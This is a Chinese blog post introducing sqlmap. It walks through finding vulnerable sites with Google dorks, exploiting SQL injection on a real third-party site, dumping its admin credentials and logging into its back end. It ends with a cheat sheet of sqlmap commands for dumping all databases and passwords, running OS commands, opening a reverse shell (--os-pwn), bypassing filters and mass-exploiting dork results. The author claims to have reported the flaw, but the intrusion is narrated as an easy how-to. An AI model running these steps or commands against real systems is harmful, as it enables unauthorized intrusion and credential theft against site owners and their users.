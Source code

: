 ```yaml
---
layout: post
title: sqlmap 入门
category: old-blog
tags: sqlmap
keywords: sqlmap
description:
---
```


# sqlmap 入门

> 本文写于 2015.12.11
>
> 本人是遵纪守法的好少年，已上报给乌云

这次攻击毫无技术门槛，任何人都可以复制。只因是自己的第一次嘛，大家都懂的，趁这个机会也学习了些 sqlmap 和 sql 的知识，哈哈哈哈，开心就好。

Sqlmap 是一款非常强大的开源 sql 自动化注入工具，可以用来检测和利用sql注入漏洞。它由python语言开发而成，因此需要安装python环境。

注意： sqlmap 只用来检测和利用 sql 注入点，并不能扫描出网站有哪些漏洞。

首先当然是找到目标，通过一些 Google 的搜索技巧可以找到些问题网站，下面是几个常见的：
- `inurl:index.php?id=`
- `inurl:trainers.php?id=`
- `inurl:buy.php?category=`
- `inurl:article.php?ID=`
- `inurl:play_old.php?id=`
- `inurl:declaration_more.php?decl_id=`
- `inurl:pageid=`
- `inurl:games.php?id=`
- `inurl:page.php?file=`
- `inurl:newsDetail.php?id=`
- `inurl:gallery.php?id=`

通过搜索 `inurl:newsDetail.php?id=` ，我发现了下面这个网站。

![](/post_pic/sqlmap_1.jpg)

点开，在网址最后输入一个单引号( ‘ )，出现如下错误信息，说明这个站点存在 sql 注入漏洞。

![](/post_pic/sqlmap_2.jpg)

接下来利用 Sqlmap 来进行信息收集，先看几个常用的参数：
- `-u` ：该参数后面跟注入的目标URL。
- `–dbms` ：后面是目标站点所使用的数据库类型，注意要用分号来包含。
- `–current-user` ：该参数含义是显示当前管理数据的用户，同时也会显示最终确定的数据库类型。
- `–current-db` ：显示当前连接的数据库名称。
- `–tables` ：列出当前数据库的所有的表名。
- `-C` ：指定我们要猜的字段内容，与 -dump 一起使用。
- `-D` ：指定数据库名称。
- `–columns` ：列出指定表中的字段。
- `-v` ：指定哪个字段开始列出结果，一般后面跟0。

下面开始实战。

第一步，我们来扫面当前网站的用户。

![](/post_pic/sqlmap_3.jpg)

得到了数据库版本和当前用户信息。

![](/post_pic/sqlmap_4.jpg)

第二步，获取当前数据库。

![](/post_pic/sqlmap_5.jpg)

获取的数据库名称。

![](/post_pic/sqlmap_6.jpg)

第三步，利用已知信息，结合参数“–tables”，来猜数据库中的表名。

![](/post_pic/sqlmap_7.jpg)

获取的数据库中的表名。

![](/post_pic/sqlmap_8.jpg)

注意：一般与网站后台相关的字段，比如“username, password, admin”等登陆相关的表名要重点关注。

第四步，在这个例子中，相关的是“dl”这个表。

![](/post_pic/sqlmap_9.jpg)

得到下面这个表。

![](/post_pic/sqlmap_10.jpg)

第五步，见证奇迹的时刻到了，利用参数组合获取信息。

![](/post_pic/sqlmap_11.jpg)

得到下面的用户名和密码。

![](/post_pic/sqlmap_12.jpg)

第六步，登陆后台后我们就大功告成了。

![](/post_pic/sqlmap_13.jpg)

就这样，打完收工，好简单啊感觉。

参考资料：
- http://sqlmap.org/
- http://drops.wooyun.org/tips/143
- http://drops.wooyun.org/tips/401


#### 基本步骤
```
sqlmap -u “http://url/news?id=1“ –current-user 获取当前用户名称
sqlmap -u “http://url/news?id=1“ –current-db 获取当前数据库名称
sqlmap -u “http://url/news?id=1“ –tables -D “db_name” 列表名
sqlmap -u “http://url/news?id=1“ –columns -T “tablename” -D “db_name” -v 0 　　　　　 列字段
sqlmap -u “http://url/news?id=1“ –dump -C “column_name” -T “table_name” -D “db_name” -v 0 获取字段内容
```

#### 信息获取
```
sqlmap -u “http://url/news?id=1“ –smart –level 3 –users smart(智能)，level(执行测试等级)
sqlmap -u “http://url/news?id=1“ –dbms “mysql” –users users列数据库用户，dbs列数据库
sqlmap -u “http://url/news?id=1“ –passwords 数据库用户密码
sqlmap -u “http://url/news?id=1“ –passwords -U root -v 0 列指定用户数据库密码
sqlmap -u “http://url/news?id=1“ –dumps -C “column_name” -T “table_name” -D “db_name” –start 1 –stop 20 　　　 列出指定字段
sqlmap -u “http://url/news?id=1“ –dump-all -v 0 列出所有数据库所有表
sqlmap -u “http://url/news?id=1“ –privileges -U root 查看指定用户权限
sqlmap -u “http://url/news?id=1“ –is-dba -v 1 是否是数据库管理员
sqlmap -u “http://url/news?id=1“ –roles 枚举数据库用户角色
sqlmap -u “http://url/news?id=1“ –udf-inject 导入用户自定义函数(获取系统权限！)
sqlmap -u “http://url/news?id=1“ –dump-all –exclude-sysdbs -v 0 列出当前库所有表
sqlmap -u “http://url/news?id=1“ –union-cols union查询表记录
sqlmap -u “http://url/news?id=1“ –cookie “COOKIE_VALUE” cookie注入
sqlmap -u “http://url/news?id=1“ –data “id=3” post注入
sqlmap -u “http://url/news?id=1“ -v 1 -f 指纹判别数据库类型
sqlmap -u “http://url/news?id=1“ –proxy “http://127.0.0.1:8118“ 代理注入
sqlmap -u “http://url/news?id=1“ –string “STRING_ON_TRUE_PAGE” 指定关键词
sqlmap -u “http://url/news?id=1“ –sql-shell 执行指定sql命令
sqlmap -u “http://url/news?id=1“ –os-cmd=whoami 执行系统命令
sqlmap -u “http://url/news?id=1“ –os-shell 系统交换shell
sqlmap -u “http://url/news?id=1“ –os-pwn 反弹shell
sqlmap -u “http://url/news?id=1“ –reg-read 读取windows系统注册表
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” 保存进度
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” –resume 恢复已保存进度
sqlmap -u “http://url/news?id=1“ –msf-path=/…/msf2 –os-pwn 反弹shell需要metasploit路径
sqlmap -u “http://url/news?id=1“ –tamper “base64encode.py” 加载脚本(可利用绕过注入限制)
sqlmap -g “google语法” –dump-all –batch google搜索注入点自动跑出所有字段
```
